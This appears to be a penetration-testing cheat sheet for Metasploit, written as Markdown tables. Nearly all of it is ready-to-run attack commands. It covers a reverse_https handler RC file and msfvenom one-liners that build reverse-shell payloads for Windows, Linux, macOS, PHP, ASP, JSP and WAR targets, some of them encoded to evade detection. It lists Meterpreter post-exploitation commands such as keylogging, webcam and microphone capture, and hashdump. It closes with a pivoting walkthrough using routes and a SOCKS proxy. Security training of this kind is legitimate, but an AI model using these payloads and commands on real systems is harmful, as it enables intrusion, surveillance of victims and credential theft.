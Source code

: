 ```yaml
---
title: Metasploit
category: Exploitation
order: 2
---
```


> **Useage** 

Start w/ RC File | <code> msfconsole -r meta_config </code>
Example RC file | <code> use exploit/multi/handler <br> set PAYLOAD windows/meterpreter/reverse_https <br> set LHOST 10.10.75.1 <br> set LPORT 8443 <br> set ExitOnSession false <br> exploit -j </code>
Run a rc file | <code> resource [location of RC file] </code>
location | <code> /opt/metasploit-4.11/ or /usr/share/framework2/ </code>
Exploit Location | <code> [location]/apps/pro/msf3/modules/exploits/ </code>
Payload Location | <code> [location]/apps/pro/msf3/modules/payloads </code>
run | <code> ./app/msfconssole </code>
Show Exploits | <code> show exploits </code>
Find Exploits | <code> search multi/handler or search android </code>
Info about Exploits | <code> info exploit/multi/handler </code>
Use Exploit | <code> use exploit/multi/handler </code>
Show Payloads | <code> show payloads </code>
Set Payload | <code> set PAYLOAD windows/shell/reverse_tcp </code>
Show Options on Payload | <code> show options </code>
Set Remote Hosts | <code> set RHOST 10.10.77.1 </code>
Set Local Hosts | <code> set LHOST 10.10.75.1 </code>
Exit on Session | <code> set ExitOnSession false </code>
Exploit as Job | <code> exploit -j </code>
list running jobs | <code> jobs </code>
List sessions | <code> sessions -l </code>
Interact with session | <code> session -i [n] </code>
Background a shell | <code> CTRL-Z </code>
Kill sessions  | <code> sessions -K </code>
Add a route | <code> route add [victim2 subnet] [netmask] [sid] </code> 
Errno:ECONNECT RESET | Reason: Windows Antivirus on client

> **Database** 

Commands | db_connect, db_disconnect, db_driver, db_status, db_export
Data | hosts, vulns, services, creds, loot, notes
Populate Hosts/Ports | use auxiliary/scanner/protscan/[tcp or syn] <br> use auxiliary/discovery/udp_sweep <br> db_nmap
Manually | hosts --add/--delete [host]<br> services --add/--delete -p [port] -r [proto] -s [name] [host1, host2,...] <br> notes --add/--delete -r [type] -n '[note text]' [host1, host2,...]
Import | db_import Nmap XML (-oX option) Nessus XMLv2 or XMLv2 (.nessus)
Hosts Help and Search | hosts -h <br> host -S linux -R (adds to RHOST)
Vulnearabilities | vulns -h <br> vulns -S RPC <br> vulns -P 445

> **MSFVenom**

Example | <code> msfvenom -p windows/shell/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -f exe > /tmp/file.exe </code>
Help | msfvenom --help-formats

**Windows:**

Binary | <code> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f exe > shell.exe </code>
Powershell Reflection | <code> msfvenom -p windows/meterpreter/reverse_https lhost=[attacker] lport=[attackerport] -f psh-reflection -a x86 > output.txt </code> 
Powershell Command | <code> msfvenom –a x86 –platform windows –p windows/meterpreter/reverse_https LHOST=[attackerIP] LPORT=[attackerPort] -e x86/shikata_ga_nai –f psh-cmd </code> 

**Linux:**

Binary | <code> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f elf > shell.elf </code>
Python | <code> msfvenom -p cmd/unix/reverse_python LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.py </code>
Bash | <code> msfvenom -p cmd/unix/reverse_bash LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.sh </code>
Perl | <code> msfvenom -p cmd/unix/reverse_perl LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.pl </code> 

**Mac:** 

Binary | <code> msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f macho > shell.macho </code>

**Web:**

PHP | <code> msfvenom -p php/meterpreter_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.php <br> cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php </code>
ASP | <code>  msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f asp > shell.asp </code> 
JSP | <code> msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.jsp </code>
WAR | <code> msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f war > shell.war </code>

**Shellcode:**

Linux | <code> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>
Windows | <code> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>
Mac | <code> msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>

> **Meterpreter**

Get system info | sysinfo
Read Registry | reg
Change local directory | lcd
Download and Upload | download/upload
Make/Remove Directory | mkdir/rmdir
Edit a file | edit
Get the PID | getpid
Get the users ID | getuid
process list | ps
Drop to Command Prompt | Shell
Terminate Program | kill [pid]
Run a program | execute [program]
Change process | migrate [PID]
Display Routing Table | route
TCP relay | portfwd add -l 1111 -p 80 -r Target 2
Screen Shot | screenshot -p [filename.jpg]
List Webcams and take a picture | webcam_list, webcam_snap
Record Microphone | record_mic -d [Seconds]
Keylogger | keyscan_start, keyscan_stop, keyscan_dump
modules | data/meterpreter/
Load Module | use [last component of dll name]
priv modules | hashdump (SAM database), timestomp (MACE dates/times)
Port Scanner | meterpreter > load msfmap <br> meterpreter > msfmap

> **Route and Proxychain**

{% highlight bash %}
meterpreter > ipconfig 
Broadcom 440x 10/100 Integrated Controller - Packet Scheduler Miniport
Hardware MAC: 00:0b:db:1d:d3:2b
IP Address : 192.168.15.3
Netmask : 255.255.255.0

meterpreter > run arp_scanner -r 192.168.15.1/24
[*] ARP Scanning 192.168.15.1/24
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff

route add 192.168.15.1 255.255.255.0 1

msf exploit(handler) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 192.168.15.1
RHOSTS => 192.168.15.1
msf auxiliary(tcp) > set PORTS 1-1024
PORTS => 1-1024

msf auxiliary(tcp) > use auxiliary/server/socks4a
msf auxiliary(socks4a) > show options
msf auxiliary(socks4a) > set SRVHOST 159.203.173.82
SRVHOST => 159.203.173.82
msf auxiliary(socks4a) > run

# vi /etc/proxychains.conf 
comment out DNS
socks4 <IP> <PORT>

proxychains nmap -sT -P0 10.0.0.10

{% endhighlight %}






